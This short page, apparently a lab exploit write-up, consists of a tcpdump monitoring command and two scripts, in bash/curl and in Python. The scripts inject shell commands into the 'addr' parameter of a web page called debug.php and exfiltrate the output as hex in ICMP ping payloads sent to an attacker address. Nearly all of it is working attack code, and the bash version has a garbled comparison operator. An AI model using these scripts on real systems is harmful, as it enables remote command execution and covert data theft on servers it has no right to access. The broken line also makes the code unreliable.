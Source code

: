 ## Monitoring

```console

sudo tcpdump host 192.168.56.8 -i vboxnet0 and icmp

```

## Script to exploit


### Sender

#### curl

```bash
#!/bin/bash

HOST=192.168.56.8
SHELL=debug.php
printf "$ "
while read cmd
do
    if [[ "$cmd" ##  "exit" ]]; then
        break
    fi
    curl -s --data-urlencode "addr=;$cmd| xxd -p -c 4 | while read line; do ping -p \$line -c 1 -q 192.168.56.1; done" http://$HOST/$SHELL | sed '1,$d'
    printf "$ "
done < "/proc/${$}/fd/0"

```


#### python


```python

# browser.py
#!/usr/bin/python3
from requests import post
import sys

url='http://192.168.56.8/debug.php'
attacker = '192.168.56.1'

while True:
    try:
        sys.stdout.write('# ')
        command = sys.stdin.readline().strip()
        if (command ==  "exit"):
            break
        payload = "; {} | xxd -p -c 4 | while read line; do ping -c 1 -p $line {}; done".format(command,attacker)
        r = post(url, data={"addr":payload})
    except KeyboardInterrupt:
        break
```
